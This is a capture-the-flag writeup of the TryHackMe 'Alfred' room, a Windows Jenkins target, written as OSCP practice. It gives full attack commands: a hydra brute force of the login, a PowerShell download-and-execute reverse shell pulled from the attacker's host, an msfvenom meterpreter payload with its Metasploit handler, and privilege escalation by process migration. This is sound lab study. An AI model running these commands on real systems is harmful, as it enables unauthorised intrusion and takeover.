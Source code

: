 # Alfred TryHackMe Writeup #
## Preface ##
Since beginning to prepare for the OSCP I have periodically bounced back and forth on my study habits which is not condusive to a smooth study experience or successful exam attempt. As I begin my refresher before beginning much more serious work I have been working through rooms I exploited before, with Alfred being the first room I did that had me scratching my head the first time. I hope this writeup helps you in the event you get stuck as I did.

## Enumeration Phase ##

Since THM provide us with the knowledge of this being a Windows device running Jenkins, this gives us an advantage when it comes to enumeration. This knowledge narrows down the first wave of enumeration we will have to perform with the first being an nmap scan to determine the ports and services running.

This can be achieved by running the comman ```sudo nmap 10.10.69.30 -Pn -p 1-9999```  which gives us three live ports which are:  80/TCP HTTP, 3389/TCP MS-WBT-SERVER, 8080/TCP HTTP-PROXY ![Pasted image 20221028174616.png](Pasted image 20221028174616.png)
Now that we have this information lets visit the open http ports to see what is available to us starting with 10.10.69.30:80 which just gives us a page with an image of Bruce Wayne ![Pasted image 20221028175000.png](Pasted image 20221028175000.png) We will now visit 10.10.69.30:8080 where we are presented with a Jenkins login page ![Pasted image 20221028175054.png](Pasted image 20221028175054.png) 

## Initial Access ##

We do not have the password so we can do some searching for Jenkins default passwords where we can see 12345 is a common one, but upon trying it we are unsuccessful, but the Burp Proxy gives us some useful information ![Pasted image 20221028181138.png](Pasted image 20221028181138.png)
Now that we have a login value we need to craft  a hydra payload to run against the endpoint to bruteforce this login. When running hydra from your wordlist directory the command should look something like this:  `hydra -L fasttrack.txt -P fasttrack.txt 10.10.69.30 -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&form=%2F&Submit=Sign+in:loginError"`  Which will take a little while to run against the endpoint so be patient. ![Pasted image 20221028183503.png](Pasted image 20221028183503.png) By utilizing Hydra we see a successful login with the username admin and the password admin ![Pasted image 20221028190601.png](Pasted image 20221028190601.png) Now that we have this login information we need to log in and be greeted with the Jenkins GUI where we see an existing project as well as the admin username showing the account we logged in under ![Pasted image 20221028190845.png](Pasted image 20221028190845.png)  We can see that the version is Jenkins 2.190.1 so we need to reseach the functionality of Jenkins to begin getting an idea of what it does which allows us to find ways to exploit it. Once you know the functionality of the service you can then move on to using the tool that THM recommends which is Nishang, specifically the Invoke-PowerShellTcp.ps1 script inside the Nishang package.

Jenkins allows us to execute Windows batch commands on the host running the service which will allow us to pull down the PowerShell script from our machine into the Windows device where it will be executed. Upon execution our listener should pick up giving us a reverse shell. 

Once you load into the project and go into the configuration you will then find a section named build that will allow you to input a command. This will be useful to achieve initial access once we spin up a simplehttp server using the python command `python -m http.server 8000`  This will create a reachable network location for our exploit to be pulled from. We will also want to initiate a listener on port 4444 using the command `rlwrap nc -lvnp 4444` Now that we have a listener running we can push the command to the device through Jenkins by building a project containing `powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.4.233:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.4.233 -Port 4444` ![Pasted image 20221028213828.png](Pasted image 20221028213828.png)

You will now have a reverse shell into the device where you can use `whoami` to verify your role and begin looking for the first flag.![Pasted image 20221028213936.png](Pasted image 20221028213936.png) ![Pasted image 20221028214328.png](Pasted image 20221028214328.png) 

## Privilege Escalation ##

Now that we have that initial shell we need to escalate our privileges to look for even more flags that may be under administrator accounts. This exercise has us using Metasploit and meterpreter in particular.

We will first need to create our payload using msfvenom which will be generated via the command `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.4.233 LPORT=4445 -f exe -o revshell.exe` ![Pasted image 20221028221202.png](Pasted image 20221028221202.png) Before we build the project we will first need to get Metasploit ready by starting the postgresql service via `service postgresql start` and then running the `msfconsole` command.

Once Metasploit is launch we first need to perform a few steps before we push the exploit and begin attempting to elevate our privileges.
1. `use exploit/multi/handler`
2. `set PAYLOAD windows/meterpreter/reverse_tcp`
3. `set LHOST 10.6.4.233`
4. `set LPORT 4445`
5. `run`
This has us listening for the exploit to be sent and allowing the payload to execute.![Pasted image 20221028221944.png](Pasted image 20221028221944.png) Now that we have this ready we will build our exploit command in Jenkins which will be `powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.6.4.233:8000/revshell.exe','revshell.exe')"` ![Pasted image 20221028222440.png](Pasted image 20221028222440.png) Once we have pushed that command from Jenkins we will want to use the `Start-Process "revshell.exe"` command from the reverse shell in the project/workspace folder to initiate the exploit. ![Pasted image 20221028223121.png](Pasted image 20221028223121.png) This should now allow the Meterpreter shell to begin connecting, opening the pathway to privilege escalation. ![Pasted image 20221028223212.png](Pasted image 20221028223212.png) With the Meterpreter shell running it's pretty simple to elevate privileges by using the `getsystem` command which will utilize an impersonation token, preventing us from being able to explore for the root.txt flag. To truly escalate our privileges to root then we will need to look for any service that would be running under the `NT\AUTHORITY` token since this is a Windows device. A usual suspect for this would be `services.exe` so we will use `ps` to list all processes and look for the PID of `services.exe`. ![Pasted image 20221028224117.png](Pasted image 20221028224117.png)

Now that we have listed all of the running processes we can migrate to the `services.exe` process which is running as `NT\AUTHORITY` and search for the flag which can be done a few ways but the easiest way will be to utilize `search -f root.txt` to determine the location of the flag then using the `shell` command to launch the Windows terminal where you can use `cd C:\Windows\System32\config` to navigate to the directory housing the flag and finally use `more root.txt` to read the flag completing the exercise.![Pasted image 20221028224629.png](Pasted image 20221028224629.png) ![Pasted image 20221028224954.png](Pasted image 20221028224954.png) 